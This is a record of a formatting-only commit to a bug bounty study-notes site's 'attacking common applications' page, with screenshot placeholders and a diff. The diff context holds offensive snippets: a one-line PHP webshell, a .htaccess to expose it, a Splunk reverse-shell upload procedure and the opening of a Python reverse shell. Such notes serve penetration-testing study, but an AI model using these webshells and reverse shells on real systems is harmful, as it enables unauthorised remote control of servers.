

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/cwes-study-notes/attacking-common-applications.md, in a window 1280 px wide and 1400 px high, scrolled down 18132 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 19392 px from its top, so only the background shows below that.

Commit message:
fix formatting issue on attacking common applications page

````diff
--- a/docs/cwes-study-notes/attacking-common-applications.md
+++ b/docs/cwes-study-notes/attacking-common-applications.md
@@ -326,13 +326,13 @@
 wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
 tar xvf captcha-8.x-1.2.tar.gz
 ```
-Create a webshell file:
+- Create a webshell file:
 ```php
 <?php
 system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']);
 ?>
 ```
-Create a .htaccess file to give ourselves access to the folder
+- Create a .htaccess file to give ourselves access to the folder
 ```html
 <IfModule mod_rewrite.c>
 RewriteEngine On
@@ -586,6 +586,7 @@
 #### Abusing Built-In Functionality
 
 **Windows Hosts**
+
 - Clone reverse shell from GitHub
 ```bash
 git clone https://github.com/0xjpuff/reverse_shell_splunk.git
@@ -604,6 +605,7 @@
 - ```Browse``` to select tar ball then click ```Upload``` this will trigger the reverse shell
 
 **Linux Hosts**
+
 - Edit ```rev.py``` to:
 ```python
 import sys,socket,os,pty
````
